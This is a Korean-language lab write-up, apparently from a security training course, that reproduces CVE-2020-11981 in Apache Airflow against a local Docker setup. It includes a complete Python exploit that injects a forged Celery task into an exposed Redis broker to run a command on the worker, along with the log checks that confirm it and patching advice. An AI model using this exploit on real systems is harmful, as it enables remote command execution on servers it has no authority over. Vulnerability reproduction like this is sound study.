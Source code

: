 # Apache Airflow Celery Broker Remote Command Execution (CVE-2020-11981)

> 화이트햇 스쿨 3기 (20반) - 금도혁
> 

### 요약

- Apache Airflow는 오픈 소스 분산 작업 스케줄링 프레임워크이다.
- 1.10.10 이전 버전에서 Redis 브로커(예: Redis 또는 RabbitMQ)가 공격자에 의해 제어되면, 공격자는 워커 프로세스에서 임의의 명령을 실행할 수 있다.

### 환경 구성 및 실행

- `docker compose run airflow-init` 로 Apache Airflow의 데이터베이스를 초기화
- `docker compose up -d` 를 실행하여 테스트 환경을 실행
- `pip install redis` 로 필요한 라이브러리 설치
- 아래와 같이 `python exploit_airflow_celery.py` 작성

```c
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 
queue_name = 'default'
ori_str="{\"content-encoding\": \"utf-8\", \"properties\": {\"priority\": 0, \"delivery_tag\": \"f29d2b4f-b9d6-4b9a-9ec3-029f9b46e066\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"correlation_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"delivery_info\": {\"routing_key\": \"celery\", \"exchange\": \"\"}, \"reply_to\": \"fb996eec-3033-3c10-9ee1-418e1ca06db8\"}, \"content-type\": \"application/json\", \"headers\": {\"retries\": 0, \"lang\": \"py\", \"argsrepr\": \"(100, 200)\", \"expires\": null, \"task\": \"airflow.executors.celery_executor.execute_command\", \"kwargsrepr\": \"{}\", \"root_id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"parent_id\": null, \"id\": \"ed5f75c1-94f7-43e4-ac96-e196ca248bd4\", \"origin\": \"gen1@132f65270cde\", \"eta\": null, \"group\": null, \"timelimit\": [null, null]}, \"body\": \"W1sxMDAsIDIwMF0sIHt9LCB7ImNoYWluIjogbnVsbCwgImNob3JkIjogbnVsbCwgImVycmJhY2tzIjogbnVsbCwgImNhbGxiYWNrcyI6IG51bGx9XQ==\"}"
task_dict = json.loads(ori_str)
command = ['touch', '/tmp/airflow_celery_success']
body=[[command], {}, {"chain": None, "chord": None, "errbacks": None, "callbacks": None}]
task_dict['body']=base64.b64encode(json.dumps(body).encode()).decode()
print(task_dict)
r.lpush(queue_name,json.dumps(task_dict))

```

- `python3 exploit_airflow_celery.py 127.0.0.1` 로 `touch /tmp/airflow_celery_success` 실행되도록 함

### 결과

- `docker compose logs airflow-worker` 로  `touch /tmp/airflow_celery_success` 가 실행됐다는 로그 를 확인할 수 있다.

![1.png](1.png)

- `docker compose exec airflow-worker ls -l /tmp` 로 `/tmp` 에 `airflow_celery_success` 가 실제로 생성되었음을 확인할 수 있다.

![2.png](2.png)

### 정리

이 취약점은 공격자가 Redis 브로커를 악용해 Apache Airflow의 워커 프로세스에서 임의의 명령을 실행할 수 있게 만든다. 이를 통해 시스템의 권한 상승이나 악성 코드 실행이 가능해져, 실제 운영 환경에선 큰 위험이 될 수 있다. 이런 문제를 예방하려면, 브로커 서버를 안전하게 설정하고, 관련 패치가 나오면 즉시 적용하는 게 중요하다.
